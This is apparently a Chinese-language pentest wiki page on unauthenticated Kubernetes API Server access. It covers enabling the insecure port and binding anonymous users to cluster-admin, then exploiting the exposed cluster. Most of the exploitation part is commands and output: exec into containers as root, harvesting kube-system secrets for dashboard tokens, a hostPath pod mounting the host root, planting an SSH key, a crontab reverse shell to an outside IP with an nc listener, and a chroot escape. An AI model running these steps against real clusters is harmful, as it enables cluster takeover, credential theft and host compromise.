



Kubernetes API Server 未授权命令执行¶
漏洞描述¶
Kubernetes 是一个可以移植、可扩展的开源平台，使用 声明式的配置 并依据配置信息自动地执行容器化应用程序的管理。在所有的容器编排工具中（类似的还有 docker swarm / mesos 等），Kubernetes 的生态系统更大、增长更快，有更多的支持、服务和工具可供用户选择。
K8s 的 API Server 默认服务端口为 8080(insecure-port) 和 6443(secure-port)，8080 端口提供 HTTP 服务，没有认证授权机制，而 6443 端口提供 HTTPS 服务，支持认证 (使用令牌或客户端证书进行认证) 和授权服务。默认情况下 8080 端口不启动，而 6443 端口启动。这两个端口的开放取决于/etc/kubernetes/manifests/kube-apiserver.yaml 配置文件。
如果目标 K8s 的 8080 端口开启了，由于其没有认证授权机制，因此存在未授权访问。
如果目标 K8s 的 6443 端口开启了，如果配置错误，也可以导致存在未授权访问。
漏洞复现¶
8080 端口¶
默认情况下，8080 端口关闭的，手动开启：
cd /etc/kubernetes/manifests
vim kube-apiserver.yaml
高版本的 k8s 中，将 --insecure-port 这个配置删除了，因此添加如下两行：
- --insecure-port=8080
- --insecure-bind-address=0.0.0.0

重启 k8s：
systemctl restart kubectl
访问 8080 端口即可看到存在未授权：

也可以使用 kubectl 远程连接获得信息：
kubectl -s http://your-ip:8080 get nodes
注：在高版本（1.20 及其以后）的 K8s 中直接禁用了该端口，并且无法打开。
6443 端口¶
如果运维人员配置不当，将 "system:anonymous" 用户绑定到 "cluster-admin" 用户组，则会使得 6443 端口允许匿名用户以管理员权限访问。
正常情况下访问 6443 端口，提示 Forbidden。

执行如下命令将 "system:anonymous" 用户绑定到 "cluster-admin" 用户组：
kubectl create clusterrolebinding cluster-system-anonymous --clusterrole=cluster-admin --user=system:anonymous
再次访问访问 6443 端口，即可未授权访问。
漏洞利用¶
命令执行¶
查看 k8s 集群信息¶
8080 端口
kubectl -s http://your-ip:8080 cluster-info
6443 端口
kubectl --insecure-skip-tls-verify -s https://172.22.14.37:6443/ cluster-info
------
Please enter Username: test
Please enter Password:
Kubernetes control plane is running at https://172.22.14.37:6443/
KubeDNS is running at https://172.22.14.37:6443//api/v1/namespaces/kube-system/services/kube-dns:dns/proxy
查看 node 节点信息¶
8080 端口
# 查看node节点
kubectl -s http://your-ip:8080 get nodes
# 查看node节点详细信息
kubectl -s http://your-ip:8080 get nodes -o wide
6443 端口
# 查看node节点
kubectl --insecure-skip-tls-verify -s https://172.22.14.37:6443/ get nodes
Please enter Username:
Please enter Password:
------
NAME STATUS ROLES AGE VERSION
ubuntu-k8s Ready master 244d v1.16.6-beta.0
# 查看node节点详细信息
kubectl --insecure-skip-tls-verify -s https://172.22.14.37:6443/ get nodes -o wide
Please enter Username:
Please enter Password:
-----
NAME STATUS ROLES AGE VERSION INTERNAL-IP EXTERNAL-IP OS-IMAGE KERNEL-VERSION CONTAINER-RUNTIME
ubuntu-k8s Ready master 244d v1.16.6-beta.0 172.22.14.37 <none> Ubuntu 18.04.6 LTS 4.15.0-213-generic docker://24.0.2
查看 pod 节点信息¶
8080 端口
# 查看所有的pod
kubectl -s http://your-ip:8080 get pods -A
6443 端口
# 查看所有的pod
kubectl --insecure-skip-tls-verify -s https://172.22.14.37:6443/ get pods -A
-----
Please enter Username:
Please enter Password:
NAMESPACE NAME READY STATUS RESTARTS AGE
default nginx-deployment 1/1 Running 0 16m
default nginx-deployment-58d48b746d-d6x8t 1/1 Running 3 240d
...
执行其他命令¶
通过获取到的 pods 节点信息，进入对应 docker 命令执行。-n 对应的是 NAMESPACE，-it 对应的是 NAME。
8080 端口¶
# 进入命名空间为default，名字为hello-minikube的容器
kubectl -s http://your-ip:8080 exec -n default -it hello-minikube -- /bin/bash
# 进入命名空间为kube-system，名字为etcd-ubuntu的容器
kubectl -s http://your-ip:8080 exec -n kube-system -it etcd-ubuntu -- /bin/sh
6443 端口¶
kubectl --insecure-skip-tls-verify -s https://172.22.14.37:6443/ exec -it nginx-deployment -- /bin/bash
-----
Please enter Username:
Please enter Password:
root@nginx-deployment:/# id
uid=0(root) gid=0(root) groups=0(root)
获取 Token 登录 dashboard¶
访问如下接口，即可看到 K8s 所有的 Token，过滤找到 dashboard-admin 相关的 Token。
http://your-ip:8080/api/v1/namespaces/kube-system/secrets/
https://your-ip:6443/api/v1/namespaces/kube-system/secrets/
base64 解码，即可使用 base64 解码后的 Token 登录 K8s 的 dashboard。
获取宿主机权限¶
创建 pod¶
创建名为 nginx-deployment 的 pod，将宿主机的目录挂载到 /mnt 目录下。
新建 test.yaml 文件，内容如下：
apiVersion: v1
kind: Pod
metadata:
name: nginx-deployment
spec:
containers:
- image: nginx:1.8
name: container
volumeMounts:
- mountPath: /mnt
name: test
volumes:
- name: test
hostPath:
path: /
创建 pod 并查看运行情况：
kubectl --insecure-skip-tls-verify -s https://your-ip:6443/ apply -f test.yaml
-----
Please enter Username: test
Please enter Password: pod/nginx-deployment created
kubectl --insecure-skip-tls-verify -s https://your-ip:6443/ get pods
-----
Please enter Username: test
Please enter Password: NAME READY STATUS RESTARTS AGE
nginx-deployment 1/1 Running 0 12s
写入 ssh 公钥¶
向 /mnt/root/.ssh/authorized_keys 写入公钥，即可获取宿主机 ssh 权限：
kubectl --insecure-skip-tls-verify -s https://your-ip:6443/ exec -it nginx-deployment /bin/bash
-----
root@nginx-deployment:/# echo "<YOUR_ID_RSA.PUB>" > /mnt/root/.ssh/authorized_keys
定时任务反弹 shell¶
写入 crontab 来反弹获取 shell，执行如下命令，将反弹 shell 的命令写入 /var/spool/cron/root 文件中：
echo "*/1 * * * * /bin/bash -i>&/dev/tcp/172.16.200.58/4444 0>&1" > root
nc 监听接收反弹 shell：
$ nc -lvp 4444
chroot 逃逸¶
chroot /mnt